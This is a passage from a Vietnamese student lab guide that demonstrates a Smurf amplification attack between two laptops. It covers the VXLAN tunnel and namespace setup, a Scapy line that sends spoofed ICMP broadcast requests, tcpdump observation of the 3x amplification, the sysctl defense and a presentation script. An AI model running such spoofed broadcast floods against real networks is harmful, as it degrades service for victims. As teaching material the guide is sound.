# 4. Tạo đường hầm VXLAN nối Switch br0 sang Laptop 2
ip link add vxlan0 type vxlan id 104 remote "$REMOTE_IP" dstport 4789 dev "$DEF_DEV"
ip link set vxlan0 master br0
ip link set vxlan0 up
```
* **Bóc tách từng tham số cốt lõi của lệnh tạo VXLAN:**
  * `ip link add vxlan0`: Tạo một giao diện mạng ảo mang tên `vxlan0`.
  * `type vxlan`: Xác định kiểu giao diện là VXLAN Tunnel theo chuẩn RFC 7348.
  * `id 104`: VXLAN Network Identifier (VNI) — Mã định danh mạng ảo, tương tự như số VLAN ID trong mạng doanh nghiệp. Hai laptop bắt buộc phải cài đặt chung một số ID (`104`) để có thể bắt tay và ghép nối gói tin vào cùng một miền quảng bá.
  * `remote "$REMOTE_IP"`: Thiết lập địa chỉ IP đích ở mạng vật lý (IP Wi-Fi của Laptop 2, ví dụ `192.168.43.20`). Khi có gói tin cần gửi qua đường hầm, Linux Kernel sẽ gửi gói tin Unicast tới thẳng IP này.
  * `dstport 4789`: Thiết lập cổng UDP đích cho gói tin đóng gói theo chuẩn IANA.
  * `dev "$DEF_DEV"`: Card mạng vật lý (hoặc card mạng ảo Bridged `eth0`/`ens33`/`wlan0`) trên hệ điều hành dùng để truyền và nhận các gói UDP 4789 ra ngoài mạng thật.
  * `ip link set vxlan0 master br0`: **Lệnh cực kỳ quan trọng**: Cắm đầu ra của giao diện VXLAN `vxlan0` vào làm một cổng thành viên của Switch ảo `br0`. Nhờ câu lệnh này, Switch `br0` coi đường hầm Wi-Fi nối sang Laptop 2 hệt như một cổng cắm dây mạng vật lý cắm trực tiếp vào switch!

---

#### c) Cấu hình trên LAPTOP 2 (Đóng vai trò ATTACKER: Kẻ tấn công từ xa):

```bash
# 1. Tạo Namespace cho Kẻ tấn công
ip netns add atk

# 2. Tạo giao diện VXLAN trỏ ngược về Laptop 1
ip link add vxlan0 type vxlan id 104 remote "$REMOTE_IP" dstport 4789 dev "$DEF_DEV"

# 3. Đưa đường hầm VXLAN thẳng vào bên trong máy Attacker
ip link set vxlan0 netns atk
ip netns exec atk ip link set vxlan0 name atk0
ip netns exec atk ip addr add 10.0.0.100/24 dev atk0
ip netns exec atk ip link set atk0 up
ip netns exec atk ip link set lo up
```
* **Bóc tách chi tiết:**
  * `ip link set vxlan0 netns atk`: Thay vì cắm vào switch như Laptop 1, Laptop 2 đẩy thẳng giao diện đường hầm `vxlan0` vào bên trong không gian mạng của kẻ tấn công `atk`.
  * `ip netns exec atk ip link set vxlan0 name atk0`: Đổi tên card mạng thành `atk0` cho ngắn gọn, dễ phân biệt.
  * `ip netns exec atk ip addr add 10.0.0.100/24 dev atk0`: Đặt địa chỉ IP của Kẻ tấn công là `10.0.0.100/24`, cùng nằm chung dải mạng ảo `10.0.0.0/24` với Nạn nhân và các trạm khuếch đại bên Laptop 1.
  * `ip link set atk0 up` & `lo up`: Kích hoạt card mạng `atk0` và loopback sẵn sàng chiến đấu.

---

### 3. Quy trình thực nghiệm 5 bước trên 2 Laptop trước Giảng viên

#### Bước 1: Khởi tạo mạng nội bộ trên Laptop 1
Tại terminal Kali Linux của **Laptop 1**, di chuyển vào thư mục dự án và chạy lệnh với vai trò `host`, truyền vào IP Wi-Fi của Laptop 2 (ví dụ `192.168.43.20`):
```bash
cd /home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP
sudo bash setup_lab4_2pc.sh host 192.168.43.20
```

#### Bước 2: Kết nối Kẻ tấn công từ Laptop 2
Tại terminal Kali Linux của **Laptop 2**, chạy lệnh với vai trò `attacker`, truyền vào IP Wi-Fi của Laptop 1 (ví dụ `192.168.43.10`):
```bash
cd /home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP
sudo bash setup_lab4_2pc.sh attacker 192.168.43.10
```
*Kiểm tra thông tuyến:* Tại Laptop 2, gõ lệnh ping kiểm tra kết nối ảo:
```bash
sudo ip netns exec atk ping -c 2 10.0.0.200
```
* **Bóc tách cờ:** `-c 2` (Count = 2) chỉ gửi đúng 2 gói tin ping để xác nhận đường truyền thông suốt mà không làm nghẽn terminal. Kết quả phản hồi `2 packets transmitted, 2 received, 0% packet loss` chứng minh đường hầm VXLAN qua Wi-Fi đã hoạt động hoàn hảo!

#### Bước 3: Mở màn hình túc trực bắt gói tin trên Laptop 1
Tại terminal của **Laptop 1**, chạy công cụ `tcpdump` trên card mạng của máy Nạn nhân:
```bash
sudo ip netns exec vic tcpdump -i vic0 -nn icmp
```
* **Bóc tách chi tiết từng thành phần của câu lệnh:**
  * `sudo`: Yêu cầu đặc quyền quản trị cao nhất (root) để đưa card mạng vào chế độ bắt gói tin hỗn tạp (Promiscuous Mode).
  * `ip netns exec vic`: Thực thi chương trình bên trong không gian mạng của máy Nạn nhân `vic`.
  * `tcpdump`: Trình bắt và giám sát gói tin dòng lệnh mạnh mẽ nhất hệ thống Linux.
  * `-i vic0`: (Interface) Chỉ định đích danh card mạng ảo cần lắng nghe là `vic0` (card của Nạn nhân).
  * `-nn`: Cờ cực kỳ quan trọng gồm 2 chữ `n`:
    * Chữ `n` thứ nhất: Không phân giải địa chỉ IP thành tên miền qua DNS (tránh phát sinh lưu lượng DNS thừa gây nhiễu màn hình và giảm độ trễ hiển thị).
    * Chữ `n` thứ hai: Không phân giải số hiệu cổng thành tên dịch vụ.
  * `icmp`: Biểu thức lọc gói BPF (Berkeley Packet Filter), chỉ lưu lại các gói tin thuộc giao thức ICMP, bỏ qua toàn bộ gói tin hệ thống khác như ARP, STP.

#### Bước 4: Phát động tấn công Smurf từ Laptop 2
Tại terminal của **Laptop 2**, sinh viên kích hoạt script tấn công:
```bash
sudo ip netns exec atk python3 smurf_attack.py
```
* **Bóc tách cơ chế bên trong mã nguồn `smurf_attack.py`:**
  * Script gọi hàm Scapy:
    ```python
    send(IP(src="10.0.0.200", dst="10.0.0.255")/ICMP(), count=10, verbose=0)
    ```
  * Gửi đi đúng 10 gói tin ICMP Echo Request.
  * Địa chỉ nguồn `src="10.0.0.200"` (bị giả mạo thành địa chỉ của Nạn nhân).
  * Địa chỉ đích `dst="10.0.0.255"` (địa chỉ Broadcast toàn bộ dải mạng LAN ảo).
  * Cả 10 gói tin được card `atk0` bọc vào UDP 4789, phóng qua sóng Wi-Fi sang Laptop 1.

#### Bước 5: Thuyết minh hiện tượng đối sánh thực tế trước Giảng viên
* **Tại màn hình Laptop 2 (Attacker):** Thông báo hoàn thành gửi đi 10 gói tin ping broadcast giả mạo. Băng thông kẻ tấn công tiêu tốn chỉ vỏn vẹn vài trăm bytes.
* **Tại màn hình Laptop 1 (Victim):** Cửa sổ `tcpdump` của Nạn nhân ngay tức khắc cuộn trào **30 gói tin ICMP Echo Reply dội về liên tục** từ 3 địa chỉ máy trạm khác nhau:
  * 10 gói dội về từ `10.0.0.11` (`amp1`)
  * 10 gói dội về từ `10.0.0.12` (`amp2`)
  * 10 gói dội về từ `10.0.0.13` (`amp3`)
  $$\text{Hệ số khuếch đại thực nghiệm} = \frac{30 \text{ gói nhận được}}{10 \text{ gói gửi đi}} = \mathbf{3\times}$$

#### Bước 6: Biểu diễn phòng thủ trực tiếp và dọn dẹp
* **Phòng thủ ngay trên Laptop 1:** Nhấn `Ctrl+C` tại terminal của nạn nhân, cấu hình 3 máy khuếch đại bỏ qua broadcast:
  ```bash
  for h in amp1 amp2 amp3; do sudo ip netns exec $h sysctl -w net.ipv4.icmp_echo_ignore_broadcasts=1; done
  sudo ip netns exec vic tcpdump -i vic0 -nn icmp
  ```
* **Chạy lại tấn công từ Laptop 2:**
  ```bash
  sudo ip netns exec atk python3 smurf_attack.py
  ```
  *Màn hình `tcpdump` bên Laptop 1 hoàn toàn im ắng, không còn bất kỳ gói Reply nào dội về! Chứng minh phòng thủ thành công 100%.*
* **Dọn dẹp môi trường sau buổi bảo vệ:** Trên cả 2 Laptop, chạy lệnh:
  ```bash
  sudo bash clean_2pc.sh
  ```
  * **Bóc tách lệnh dọn dẹp:** Script tự động xóa bỏ đường hầm `vxlan0`, xóa switch `br0` và xóa toàn bộ các Network Namespaces, khôi phục hệ thống về trạng thái ban đầu sạch sẽ.

---

### 4. Kịch bản lời thoại phối hợp giữa 2 sinh viên khi thuyết trình:
* **Sinh viên 1 (đứng cạnh Laptop 1):**  
  *"Thưa thầy, trên Laptop 1 của em đang mô phỏng toàn bộ hạ tầng mạng máy chủ nội bộ của một tổ chức. Em sử dụng Linux Bridge `br0` làm Switch ảo kết nối máy chủ nạn nhân `vic` (`10.0.0.200`) và 3 máy trạm trung gian `amp1`, `amp2`, `amp3`. Hiện tại em đang bật `tcpdump` với cờ `-nn icmp` để giám sát toàn bộ lưu lượng ICMP tới máy nạn nhân."*
* **Sinh viên 2 (đứng cạnh Laptop 2):**  
  *"Còn ở Laptop 2, em đóng vai kẻ tấn công ngồi từ một vị trí vật lý xa xôi kết nối qua mạng Wi-Fi. Do mạng Wi-Fi thực tế ngăn chặn các gói tin broadcast và chặn IP giả mạo, nhóm chúng em đã ứng dụng công nghệ đường hầm VXLAN theo chuẩn RFC 7348 để đóng gói toàn bộ Frame Tầng 2 vào các gói tin UDP cổng 4789, đưa kẻ tấn công hòa nhập thông suốt vào mạng LAN ảo của Laptop 1. Bây giờ em xin phép bấm Enter chạy file `smurf_attack.py` để gửi 10 gói ping broadcast giả mạo..."*
* **Sinh viên 1 (chỉ tay vào màn hình Laptop 1):**  
  *"Thầy hãy nhìn sang màn hình Laptop 1 của em: Ngay khi bạn bấm Enter, màn hình của em lập tức bùng nổ 30 gói tin Reply dội về máy nạn nhân từ cả 3 trạm khuếch đại! Kẻ tấn công chỉ tốn 10 gói tin nhỏ nhưng đã bắt ép hệ thống mạng nội bộ của em phải tự triệt tiêu băng thông của chính mình với hệ số khuếch đại gấp 3 lần. Cuộc tấn công Smurf thực chiến giữa 2 Laptop vật lý độc lập đã thành công mỹ mãn!"*


